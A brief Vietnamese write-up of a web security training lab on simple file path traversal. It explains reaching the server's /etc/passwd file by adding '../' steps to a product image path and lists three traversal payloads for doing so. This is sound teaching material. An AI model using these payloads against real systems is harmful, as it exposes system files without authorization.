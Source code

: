 ## File path traversal, simple case

1. Dựa vào đề bài của lab ta có thể thực thi file path traversal trong đường dẫn tới hình ảnh của sản phẩm để có thể truy xuất nội dung trong file ``passwd`` trên server. Tăng dần (../) để tiến về thư mục root chứa etc.
Payload: 
- ```../etc/passwd```
- ```../../etc/passwd```
- ```../../../etc/passwd```

![Img1](\asset/../img/done.png)